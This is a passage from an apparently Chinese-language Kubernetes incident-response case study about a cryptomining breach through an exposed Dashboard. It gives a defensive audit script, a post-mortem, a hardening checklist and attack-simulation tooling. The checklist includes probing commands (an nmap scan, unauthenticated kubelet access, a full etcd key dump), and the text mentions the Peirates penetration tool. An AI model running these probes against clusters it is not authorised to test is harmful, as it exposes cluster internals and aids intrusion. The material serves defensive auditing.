以下脚本可用于定期审计K8s集群的安全配置：

```bash
#!/bin/bash
# k8s-security-audit.sh - Kubernetes集群安全审计脚本
# 用法: ./k8s-security-audit.sh [输出目录]

OUTPUT_DIR="${1:-./k8s-audit-$(date +%Y%m%d-%H%M%S)}"
mkdir -p "$OUTPUT_DIR"

echo "=========================================="
echo "Kubernetes 安全审计脚本"
echo "审计时间: $(date -u '+%Y-%m-%d %H:%M:%S UTC')"
echo "=========================================="

# 1. 检查暴露的Dashboard
echo "[1/10] 检查Dashboard暴露情况..."
DASHBOARD_SVC=$(kubectl get svc -A -l k8s-app=kubernetes-dashboard -o jsonpath='{.items[*].spec.type}' 2>/dev/null)
if echo "$DASHBOARD_SVC" | grep -qE "NodePort|LoadBalancer"; then
  echo "  [严重] Dashboard使用 $DASHBOARD_SVC 类型，可能暴露在公网！"
  echo "  暴露的端口:"
  kubectl get svc -A -l k8s-app=kubernetes-dashboard -o wide
else
  echo "  [通过] Dashboard未使用NodePort/LoadBalancer"
fi

# 2. 检查特权容器
echo "[2/10] 检查特权容器..."
PRIVILEGED_PODS=$(kubectl get pods -A -o json | jq -r '
  .items[] | select(.spec.containers[].securityContext.privileged==true) |
  "\(.metadata.namespace)/\(.metadata.name)"')
if [ -n "$PRIVILEGED_PODS" ]; then
  echo "  [警告] 发现以下特权容器:"
  echo "$PRIVILEGED_PODS" | while read line; do echo "    - $line"; done
else
  echo "  [通过] 未发现特权容器"
fi

# 3. 检查hostNetwork/hostPID
echo "[3/10] 检查使用hostNetwork/hostPID的Pod..."
HOST_PODS=$(kubectl get pods -A -o json | jq -r '
  .items[] | select(.spec.hostNetwork==true or .spec.hostPID==true) |
  "\(.metadata.namespace)/\(.metadata.name) (hostNetwork:\(.spec.hostNetwork) hostPID:\(.spec.hostPID))"')
if [ -n "$HOST_PODS" ]; then
  echo "  [警告] 发现以下使用宿主机命名空间的Pod:"
  echo "$HOST_PODS" | while read line; do echo "    - $line"; done
else
  echo "  [通过] 未发现使用宿主机命名空间的Pod"
fi

# 4. 检查未设置资源限制的Pod
echo "[4/10] 检查未设置资源限制的Pod..."
NO_LIMIT_PODS=$(kubectl get pods -A -o json | jq -r '
  .items[] | select(.spec.containers[].resources.limits==null) |
  "\(.metadata.namespace)/\(.metadata.name)"' | head -20)
if [ -n "$NO_LIMIT_PODS" ]; then
  echo "  [警告] 以下Pod未设置资源限制（前20个）:"
  echo "$NO_LIMIT_PODS" | while read line; do echo "    - $line"; done
else
  echo "  [通过] 所有Pod均已设置资源限制"
fi

# 5. 检查默认ServiceAccount绑定
echo "[5/10] 检查default SA的高权限绑定..."
DEFAULT_SA_BINDINGS=$(kubectl get clusterrolebindings -o json | jq -r '
  .items[] | select(.subjects[]?.name=="default" and .roleRef.name=="cluster-admin") |
  "\(.metadata.name) -> cluster-admin"')
if [ -n "$DEFAULT_SA_BINDINGS" ]; then
  echo "  [严重] default ServiceAccount绑定了cluster-admin!"
  echo "$DEFAULT_SA_BINDINGS" | while read line; do echo "    - $line"; done
else
  echo "  [通过] default SA未绑定cluster-admin"
fi

# 6. 检查cluster-admin绑定
echo "[6/10] 检查cluster-admin的所有绑定..."
kubectl get clusterrolebindings -o json | jq -r '
  .items[] | select(.roleRef.name=="cluster-admin") |
  "\(.metadata.name): \(.subjects[]? | "\(.kind)/\(.name)")"' > "$OUTPUT_DIR/cluster-admin-bindings.txt"
BINDING_COUNT=$(wc -l < "$OUTPUT_DIR/cluster-admin-bindings.txt")
echo "  [信息] 共有 $BINDING_COUNT 个绑定到cluster-admin的角色绑定"
echo "  详细列表已保存到 $OUTPUT_DIR/cluster-admin-bindings.txt"

# 7. 检查镜像来源
echo "[7/10] 检查镜像来源..."
kubectl get pods -A -o jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}' | sort -u | grep -v -E "^$|^(registry.k8s.io|k8s.gcr.io|gcr.io)" > "$OUTPUT_DIR/non-standard-images.txt"
echo "  [信息] 非标准镜像列表已保存到 $OUTPUT_DIR/non-standard-images.txt"

# 8. 检查NetworkPolicy
echo "[8/10] 检查NetworkPolicy覆盖情况..."
for ns in $(kubectl get ns -o jsonpath='{.items[*].metadata.name}'); do
  NP_COUNT=$(kubectl get networkpolicies -n $ns --no-headers 2>/dev/null | wc -l)
  if [ "$NP_COUNT" -eq 0 ]; then
    echo "  [警告] 命名空间 $ns 未配置NetworkPolicy"
  fi
done

# 9. 检查Pod Security Standards标签
echo "[9/10] 检查Pod Security Standards配置..."
for ns in $(kubectl get ns -o jsonpath='{.items[*].metadata.name}'); do
  ENFORCE=$(kubectl get ns $ns -o jsonpath='{.metadata.labels.pod-security\.kubernetes\.io/enforce}' 2>/dev/null)
  if [ -z "$ENFORCE" ]; then
    echo "  [警告] 命名空间 $ns 未配置Pod Security Standards"
  else
    echo "  [通过] 命名空间 $ns 安全级别: $ENFORCE"
  fi
done

# 10. 检查kubelet匿名认证
echo "[10/10] 检查kubelet安全配置..."
for node in $(kubectl get nodes -o jsonpath='{.items[*].metadata.name}'); do
  echo "  节点 $node:"
  # 尝试匿名访问kubelet API（应该被拒绝）
  KUBELET_STATUS=$(kubectl get --raw "/api/v1/nodes/$node/proxy/healthz" 2>&1 | head -1)
  if echo "$KUBELET_STATUS" | grep -qi "unauthorized\|forbidden"; then
    echo "    [通过] kubelet匿名访问已禁用"
  else
    echo "    [警告] kubelet可能允许匿名访问"
  fi
done

echo ""
echo "=========================================="
echo "审计完成，结果保存在: $OUTPUT_DIR"
echo "=========================================="
```

---

### 六、事件后复盘与持续改进

#### 6.1 事件复盘会议（Post-Mortem）模板

```text
事件标题：Kubernetes集群挖矿攻击事件
事件级别：P2（重大安全事件）
发生日期：YYYY-MM-DD
发现日期：YYYY-MM-DD
恢复日期：YYYY-MM-DD

一、时间线
  - [T+0] Dashboard暴露在公网（起始时间未知）
  - [T+0 15:07] 攻击者首次成功认证
  - [T+0 16:45] 恶意DaemonSet部署完成
  - [T+17] 云厂商账单异常告警
  - [T+17 2h] 完成遏制和取证
  - [T+17 4h] 完成清除和初步加固

二、根本原因
  1. Dashboard配置为NodePort，绑定0.0.0.0，无防火墙限制
  2. 使用弱密码认证，Token长期未轮换
  3. RBAC过度授权，管理员账户绑定cluster-admin
  4. 未部署Pod Security Standards，允许特权容器
  5. 未部署运行时安全监控（Falco等）
  6. 无安全事件响应SOP

三、影响评估
  - 财务影响：约¥86,000云资源费用
  - 业务影响：无（攻击目标为算力）
  - 数据影响：未发现数据泄露
  - 声响影响：内部知晓，未外部暴露

四、已采取的行动
  [已完成] 删除恶意DaemonSet和Pod
  [已完成] 隔离Dashboard，改为ClusterIP
  [已完成] 轮换所有ServiceAccount Token和集群证书
  [已完成] 部署Pod Security Standards
  [已完成] 启用Kubernetes Audit Logging
  [进行中] 部署Falco运行时监控
  [进行中] 实施细粒度RBAC模型
  [待开始] 部署OPA Gatekeeper/Kyverno策略引擎
  [待开始] 建立定期安全审计机制

五、改进措施
  1. 建立K8s安全基线配置文档
  2. 实施定期安全审计（每月一次）
  3. 建立安全事件响应SOP
  4. 开展K8s安全培训（全员）
  5. 引入外部安全评估（每季度一次）

六、经验教训
  - 纵深防御是核心：任何单点防护都不够
  - 监控告警必须覆盖安全场景，不仅是业务指标
  - 网络边界是第一道防线，必须严格控制
  - RBAC最小权限原则必须严格执行
  - 安全事件响应SOP必须提前建立并定期演练
```

#### 6.2 持续改进路线图



---

### 七、举一反三：K8s安全全景检查清单

将本案例的教训泛化为Kubernetes安全检查清单，适用于所有K8s集群：

| 检查项 | 优先级 | 本案例状态 | 检查命令/方法 |
|--------|--------|-----------|---------------|
| API Server不暴露公网 | P0 | ❌ 未通过 | `nmap -p 6443 <外网IP>` |
| Dashboard仅内网访问 | P0 | ❌ 未通过 | `kubectl get svc -A -l k8s-app=kubernetes-dashboard` |
| RBAC最小权限 | P0 | ❌ 未通过 | `kubectl get clusterrolebindings -o json \| jq '.items[] \| select(.roleRef.name=="cluster-admin")'` |
| 禁止匿名认证 | P0 | ❌ 未通过 | `kubectl get --raw /api/v1/nodes 2>&1` |
| Pod Security Standards | P1 | ❌ 未部署 | `kubectl get ns -L pod-security.kubernetes.io/enforce` |
| 镜像白名单 | P1 | ❌ 未实施 | 检查Admission Controller配置 |
| NetworkPolicy | P1 | ❌ 未部署 | `kubectl get networkpolicies -A` |
| Audit Logging | P1 | ❌ 未启用 | `ps aux \| grep kube-apiserver \| grep audit` |
| Falco/运行时监控 | P2 | ❌ 未部署 | `kubectl get pods -A \| grep falco` |
| 资源配额 | P2 | ❌ 未设置 | `kubectl get resourcequota -A` |
| Secret加密存储 | P2 | ❌ 未启用 | 检查EncryptionConfiguration |
| kubelet认证 | P1 | ❌ 未加固 | `curl -sk https://<node>:10250/pods` |
| etcd加密 | P1 | ❓ 待确认 | `ETCDCTL_API=3 etcdctl get / --keys-only --prefix` |

---

### 八、常见误区与纠正

| 误区 | 正确认知 |
|------|----------|
| "启用了RBAC就是安全的" | RBAC只解决授权问题，不解决认证强度、网络隔离、运行时防护等问题。本案例中RBAC已启用但仍被突破，因为认证层（弱Token）先被绕过。 |
| "Dashboard用了HTTPS就安全了" | HTTPS只加密传输，不阻止未授权访问。自签名证书无法防御中间人攻击，且不提供身份验证。 |
| "Pod Security Policy已弃用，不用管了" | PodSecurityPolicy在K8s 1.25移除，但替代方案Pod Security Admission（PSA）和第三方工具（Kyverno、Gatekeeper）更加成熟。必须实施其中一种。 |
| "NetworkPolicy太复杂，以后再说" | 本案例中，如果部署了默认拒绝的NetworkPolicy，挖矿程序将无法连接矿池，攻击将完全失败。NetworkPolicy是阻止横向移动和外联的核心手段。 |
| "集群内部不需要安全监控" | 攻击者进入集群后的第一件事就是横向侦察和持久化。没有运行时监控，攻击者可以在集群内驻留数周而不被发现。 |
| "删除Pod就能清除威胁" | 如果攻击者获得了宿主机访问权限（通过hostPID/hostNetwork/privileged），删除Pod可能不够。需要在节点级别进行取证和清除。 |

---

### 九、进阶：攻击模拟与防御验证

为了验证加固效果，建议使用以下工具定期进行攻击模拟：

**9.1 使用kube-hunter进行攻击面扫描**

```bash
# 部署kube-hunter（K8s内部扫描）
kubectl run kube-hunter --rm -it --restart=Never \
  --image=aquasec/kube-hunter:latest \
  --command -- kube-hunter --remote <集群内网CIDR>

# 输出示例（加固前）：
# [+] Dashboard (10.0.1.10:30443)
#     类型: 暴露的服务
#     风险: 高
#     描述: Kubernetes Dashboard暴露，可通过弱Token认证
# [+] Anonymous Authentication (10.0.1.11:10250)
#     类型: 暴露的服务
#     风险: 严重
#     描述: kubelet允许匿名认证，可直接访问Pod列表
```

**9.2 使用kube-bench进行CIS基准检查**

```bash
# 运行CIS Kubernetes Benchmark
kubectl run kube-bench --rm -it --restart=Never \
  --image=aquasec/kube-bench:latest \
  --command -- kube-bench run --targets=master,node

# 输出示例（加固前vs加固后对比）：
# 加固前：
# [PASS] 18  [FAIL] 23  [WARN] 7
# 
# 加固后：
# [PASS] 38  [FAIL] 3   [WARN] 4
```

**9.3 使用Peirates进行攻击链模拟**

```bash
# Peirates是一个K8s渗透测试工具
# 模拟攻击者视角：从ServiceAccount Token开始
# 测试提权路径、横向移动、数据访问等
kubectl run peirates --rm -it --restart=Never \
  --image=instrumenta/peirates:latest
```

---

### 总结

本案例展示了一个典型的Kubernetes集群安全事件的完整生命周期。从攻击者通过Shodan发现暴露的Dashboard，到利用弱密码获取集群管理权限，再到部署DaemonSet进行加密货币挖矿——整个攻击链利用的都是基础安全配置的缺失，而非高级漏洞利用技术。

**核心防御原则：**

1. **网络边界是第一道防线：** 管理接口绝不暴露公网，通过VPN/堡垒机访问
2. **认证授权是关键枢纽：** 强认证（MFA）+ 最小权限RBAC，缺一不可
3. **运行时防护是最后屏障：** Pod Security Standards + 镜像白名单 + 运行时监控
4. **监控告警是感知能力：** 业务监控不够，必须覆盖安全场景
5. **应急响应是兜底保障：** 提前建立SOP，定期演练，避免临阵慌乱

> **一句话总结：** 安全不是配置一个参数就能解决的问题，而是一个需要持续投入的系统工程。纵深防御、持续监控、快速响应——三者缺一不可。
